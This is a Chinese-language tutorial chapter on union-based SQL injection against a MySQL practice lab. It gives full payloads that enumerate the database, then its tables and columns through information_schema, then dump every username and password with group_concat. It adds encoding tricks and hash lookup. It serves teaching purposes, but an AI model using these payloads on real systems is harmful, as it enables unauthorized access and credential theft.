

# 04 信息收集：从库名到数据

> 有回显位后，按「**库 → 表 → 列 → 数据**」逐层取，每一步都是一条 `union select`。

## 4.1 取数据库名

```sql
select id, username, password from table1
where id='-2' union select 1, database(), 3 -- ' limit 0,1;
```

实测结果：库名是 **security**。

常用函数：

| 函数 | 作用 |
| --- | --- |
| `database()` | 当前数据库名 |
| `version()` | 数据库版本（低版本没有 `information_schema` 时很关键） |
| `user()` | 当前数据库用户（判断权限） |
| `@@datadir` | 数据目录 |

## 4.2 用 `information_schema` 找表名

MySQL 5.0 以上自带系统库 `information_schema`，里面有两张表最常用：

| 表 | 存的内容 |
| --- | --- |
| `information_schema.tables` | 所有库的所有表名 |
| `information_schema.columns` | 所有库的所有列名 |

取库 `security` 下的表名：

```sql
id=-2' union select 1, table_name, 3
from information_schema.tables
where table_schema='security'
limit 1,1 --+
```

逐条翻 `limit`（`limit 0,1`、`limit 1,1`、`limit 2,1` …）就能把表一个个列出来。

实测得到：`emails`、`referers`、`uagents`、`users`。

> 判断经验：**`users` 这类表通常有账号密码，优先看它**。

## 4.3 找 `users` 表的列名

```sql
id=-2' union select 1, column_name, 3
from information_schema.columns
where table_schema='security' and table_name='users'
limit 2,1 --+
```

实测得到三个关键列：`id`、`username`、`password`。

## 4.4 一次性拖出账号密码

前面每条只取一个值，效率低。`group_concat()` 可以把多行拼成一串：

```sql
id=-2' union select 1, group_concat(username), group_concat(password)
from users --+
```

一次拿到所有用户名和所有密码。

> 注意：`group_concat` 默认结果长度有上限（`group_concat_max_len`，默认约 1024 字节），数据多时会被截断，可以配合 `substring` 分段取。

## 4.5 完整流程



```sql
-- 1. 库名
id=-2' union select 1, database(), 3 --+

-- 2. 表名
id=-2' union select 1, table_name, 3 from information_schema.tables
where table_schema='security' limit 0,1 --+

-- 3. 列名
id=-2' union select 1, column_name, 3 from information_schema.columns
where table_schema='security' and table_name='users' limit 0,1 --+

-- 4. 数据
id=-2' union select 1, group_concat(username), group_concat(password) from users --+
```

## 4.6 取不到 `information_schema` 怎么办

| 情况 | 应对 |
| --- | --- |
| MySQL < 5.0 | 只能猜表名（常见 `admin`、`users`、`member`），或先 `version()` 确认版本 |
| 权限受限 | 只能看当前库；可试 `show databases` 的等价读法，或换账号 |
| 只回显一个字段 | 把多个值用 `concat_ws(0x3a, a, b)` 拼进同一列 |
| 数据被转义 | 用 `hex()`、`to_base64()` 转成安全字符再解码 |

## 4.7 密码拿到之后

靶场里通常是 MD5。可以：
- 用 `md5()` 反查在线库（仅限学习用途）；
- 或者干脆绕过密码：`union select 1,'admin','x' from users` 之类的思路只适用于特定逻辑漏洞，不在本篇范围。

拿到数据后**不要**拿去登录真实系统 —— 这条线越过了「学习」的边界。
